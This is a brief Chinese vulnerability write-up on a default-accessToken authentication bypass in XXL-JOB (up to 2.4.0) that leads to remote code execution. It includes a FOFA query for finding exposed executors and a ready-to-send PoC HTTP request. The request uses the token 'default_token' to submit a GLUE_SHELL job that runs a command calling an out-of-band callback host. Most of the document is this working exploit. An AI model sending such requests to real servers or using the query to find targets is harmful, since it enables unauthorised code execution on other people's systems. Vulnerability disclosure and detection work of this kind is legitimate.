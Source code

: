 XXL-JOB默认accessToken身份绕过漏洞
## 0x01：漏洞描述

从XXL-JOB v2.3.1版本开始，在application.properties为 accessToken增加了默认值，如果用户没有修改该默认值，攻击者可利用该默认值在未授权的情况下绕过认证，最终可导致远程代码执行。

## 0x02：漏洞影响版本

XXL-JOB <= 2.4.0

## 0x03：网络空间测绘查询

fofa:
`"invalid request, HttpMethod not support" && port="9999"`
漏洞信息：https://github.com/projectdiscovery/nuclei-templates/issues/8523
## 0x04:poc
```
POST /run HTTP/1.1
        Host: {{Hostname}}
        Accept-Encoding: gzip, deflate
        Accept: */*
        Accept-Language: en
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
        Content-Type: application/json
        Xxl-Job-Access-Token: default_token
        Content-Length: 396

        {
          "jobId": {{rand_int(1000)}},
          "executorHandler": "demoJobHandler",
          "executorParams": "demoJobHandler",
          "executorBlockStrategy": "COVER_EARLY",
          "executorTimeout": 0,
          "logId": 1,
          "logDateTime": 1586629003729,
          "glueType": "GLUE_SHELL",
          "glueSource": "ping {{interactsh-url}}",
          "glueUpdatetime": 1586699003758,
          "broadcastIndex": 0,
          "broadcastTotal": 0
        }
```
